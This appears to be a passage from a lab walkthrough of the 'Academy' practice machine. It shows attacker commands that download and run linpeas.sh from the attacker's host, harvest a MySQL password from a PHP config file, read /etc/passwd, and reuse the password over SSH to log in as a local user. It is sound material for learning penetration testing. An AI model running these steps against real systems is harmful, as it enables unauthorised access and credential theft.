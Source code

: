 ```bash
# Target reverse shell
cd /tmp
wget http://192.168.31.131:8000/linpeas.sh
# the file will be copied to the target machine

# Run LinPEAS
chmod +x linpeas.sh
./linpeas.sh
```

![](3-eth-hackassets/2024-07-14_11-51-24_614.png)

- Check for interesting data

```bash
* * * * * /home/grimmie/backup.sh

/var/www/html/academy/admin/includes/config.php:$mysql_password = "My_V3ryS3cur3_P4ss";
```

```bash
cat /var/www/html/academy/admin/includes/config.php

<?php
$mysql_hostname = "localhost";
$mysql_user = "grimmie";
$mysql_password = "My_V3ryS3cur3_P4ss";
$mysql_database = "onlinecourse";
$bd = mysqli_connect($mysql_hostname, $mysql_user, $mysql_password, $mysql_database) or die("Could not connect database");
?>
```

```bash
cat /etc/passwd

grimmie:x:1000:1000:administrator,,,:/home/grimmie:/bin/bash
```

```bash
# Kali
ssh grimmie@192.168.31.128
# Paste My_V3ryS3cur3_P4ss password

grimmie@academy:~$

sudo -l
history
cat /home/grimmie/backup.sh

    #!/bin/bash
    rm /tmp/backup.zip
    zip -r /tmp/backup.zip /var/www/html/academy/includes
    chmod 700 /tmp/backup.zip
```